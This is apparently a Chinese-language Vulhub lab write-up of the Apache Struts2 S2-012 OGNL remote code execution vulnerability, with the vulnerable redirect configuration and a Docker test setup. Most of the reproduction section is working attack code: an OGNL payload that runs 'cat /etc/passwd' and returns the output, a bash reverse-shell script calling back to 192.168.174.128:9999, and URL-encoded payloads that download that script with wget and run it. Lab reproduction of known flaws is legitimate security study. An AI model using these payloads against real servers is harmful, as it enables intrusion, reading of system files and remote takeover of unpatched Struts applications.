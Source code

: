 # Apache Struts2 S2-012 远程代码执行漏洞

## 漏洞描述

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

漏洞详情:

- http://struts.apache.org/docs/s2-012.html

## 漏洞影响

影响版本: 2.1.0 - 2.3.13

## 环境搭建

Vulhub 执行以下命令启动 s2-012 测试环境：

```
docker-compose build
docker-compose up -d
```

访问 `http://your-vps-ip:8080/index.jsp` 即可进入上传表单页面。

## 漏洞复现

可以直接祭出 s2-001 中的回显 POC，因为这里是没有沙盒，也没有限制任何特殊字符。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：

![image-20220301173613307](images/202203011736450.png)

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22wget%22%2C+%22192.168.174.128%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

执行 shell.sh 文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22bash%22%2C+%22%2Fusr%2Flocal%2Ftomcat%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

成功接收反弹 shell：

![image-20220301173937416](images/202203011739511.png)
